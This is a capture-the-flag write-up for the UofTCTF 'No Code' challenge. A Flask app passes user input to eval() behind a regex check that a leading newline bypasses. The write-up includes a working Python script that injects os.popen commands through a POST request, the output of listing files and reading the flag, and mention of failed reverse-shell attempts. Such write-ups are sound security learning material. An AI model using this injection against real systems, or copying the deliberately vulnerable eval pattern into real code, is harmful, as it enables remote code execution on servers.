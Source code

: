 # No Code

I made a web app that lets you run any code you want. Just kidding!

Author: SteakEnthusiast

`export URL=https://uoftctf-no-code.chals.io`

```
# app.py
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

## Initial thoughts

We have a route that we can POST some 'code' data to.

Testing the route with curl:
`curl $URL/execute -d "code=hello"`
we get
`{"output":"jk lmao no code"}`

Now, we know that this is because of the re.match() check.

Now, I want to try and understand how to bypass the regex check so we can reach the eval() statement.

## Breaking down the regex

`if re.match(".*[\x20-\x7E]+.*", code):`

> re.match(pattern, string, flags=0)
>
> If zero or more characters at the beginning of string match the regular expression pattern, return a corresponding Match. Return None if the string does not match the pattern; note that this is different from a zero-length match.

`".*[\x20-\x7E]+.*"`

- `.` can match any single character
- `*` can match zero or more characters
- `[\x20-x7E]+` can match characters with ascii value of 20(space) to 126(~) and with the plus it will match one or more

In my understanding, to make the re.match() not evaluate to true we need to find a string that the beginning doesnt match the regex.

Then, I remember this line in the re.match() docs.

> Note that even in MULTILINE mode, re.match() will only match at the beginning of the string and not at the beginning of each line.

Simply adding a `\n` in the start of the code will let us bypass the if check.

## Figuring out the payload

My initial thought here is to establish a rev shell. HOW DO I DO THAT THOUGH?

After spending some time trying to get a reverse shell, messing with revshells.com... I kept getting some `error 32512` or `error 256` with os.system() and `syntax error: bad fd number`.

So, after doing some more research how to exploit a python code injection I came upon this [article](https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html).

Using os.popen('command').read() would let us get the return values of the command we run compared to using os.system() where we could only get the return code.

So, I crafted this script...

```
#!/usr/bin/python3

import requests

url = "https://uoftctf-no-code.chals.io"

command = 'command'
wrapper = f"__import__('os').popen('{command}').read()"

payload = {"code" : "\n" + wrapper}

r = requests.post(url+"/execute", payload)

print(r.text)
```

Running the script with `ls`, we get this `{"output":"app.py\nflag.txt\nrequirements.txt\n"}`.

So, now we just need to cat the flag.txt with `cat flag.txt` and we get `{"output":"uoftctf{r3g3x_3p1c_f41L_XDDD}"}`

FLAG: uoftctf{r3g3x_3p1c_f41L_XDDD}

P.S: I might have gotten the flag but I was not able to establish a reverse shell.
